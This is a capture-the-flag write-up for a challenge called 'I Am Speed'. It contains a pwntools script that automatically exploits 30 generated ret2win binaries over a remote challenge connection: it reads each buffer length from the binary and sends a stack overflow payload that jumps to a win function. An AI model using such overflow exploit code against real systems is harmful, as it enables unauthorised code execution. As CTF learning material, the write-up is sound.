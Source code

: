 # I Am Speed

30 randomly generated ret2win programs (sent as B64). 60 seconds. Can we pwn them all?

(spoiler alert: yes)

Each binary is a 64-bit ELF, no pie, canary etc. They're all the standard buffer-overflow-with-ret-address.

The catch is that the size of the buffer changes, and may be 1 or 2 bytes long. I checked the next two bytes to determine the length.

```python
from pwn import *;

def save( bs, i ):
   # Have to save the binary because
   # ELF.from_bytes() interprets it wrong
   fn = f"prog{i}.elf"
   with open( fn, "bw+" ) as file:
       file.write( bs )
   
   return fn

io = remote( "188.166.198.74", 30021 )

io.recvline()
io.sendline( b"y" )

for i in range( 30 ):
   bin = ELF( save( b64d( io.recvline() ), i ) )
   print( io.recvline() )

   # get length of buffer with hardcoded offset
   buf_size_addr = bin.sym["main"] + 4 + 3
   buf_length = 0;
   
   # how many bytes is the buffer length?
   if bin.read( buf_size_addr + 1, 2 ) == b"\x48\x8b":
       # 1 byte, use u8
       buf_length = bin.u8( buf_size_addr )
   else:
       buf_length = bin.u16( buf_size_addr )

   # construct payload
   payload = b'A' * buf_length + b'B' * 8 + p64( bin.sym["win"] )

   io.sendline( payload )

   print( io.recvline() )

   if i == 29:
        # return control to us so ee can witness our victory personally
       io.interactive()
```
